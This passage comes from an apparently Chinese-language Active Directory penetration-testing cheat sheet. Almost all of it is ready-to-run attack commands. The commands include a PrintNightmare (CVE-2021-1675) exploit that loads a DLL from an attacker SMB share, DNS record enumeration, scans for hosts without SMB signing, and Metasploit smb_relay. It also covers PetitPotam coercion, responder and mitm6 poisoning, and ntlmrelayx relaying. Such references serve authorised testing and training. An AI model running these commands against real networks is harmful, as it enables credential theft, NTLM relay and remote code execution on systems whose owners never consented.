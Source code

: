 ~~~ABAP
CVE-2021-1675.py <domain>/<user>:<password>@<target> '\\<smb_server_ip>\<share>\inject.dll'
~~~



### 枚举 DNS 服务器

~~~ABAP
dnstool.py -u 'DOMAIN\user' -p 'password' --record '*' --action query <dc_ip>
~~~







# 7.relay/poisoning攻击

### 扫描没开启SMB签名的机器

~~~ABAP
nmap -Pn -sS -T4 --open --script smb-security-mode -p445 ADDRESS/MASK

use exploit/windows/smb/smb_relay

cme smb $hosts --gen-relay-list relay.txt
~~~

### PetitPotam

~~~ABAP
PetitPotam.py  -d <domain> <listener_ip> <target_ip>
~~~

后续可以跟着adcs攻击



### 监听

~~~ABAP
responder -i eth0
mitm6 -d <domain>
~~~



## 无SMB签名 || 开启IPv6 || ADCS

### 1.MS08-068

~~~
use exploit/windows/smb/smb_relay 	#常用于windows2003 / windows server2008
~~~



~~~
responder -I eth0 # 记得先关闭本机的 smb 和 http 服务

ntlmrelayx.py -tf targets.txt 
~~~
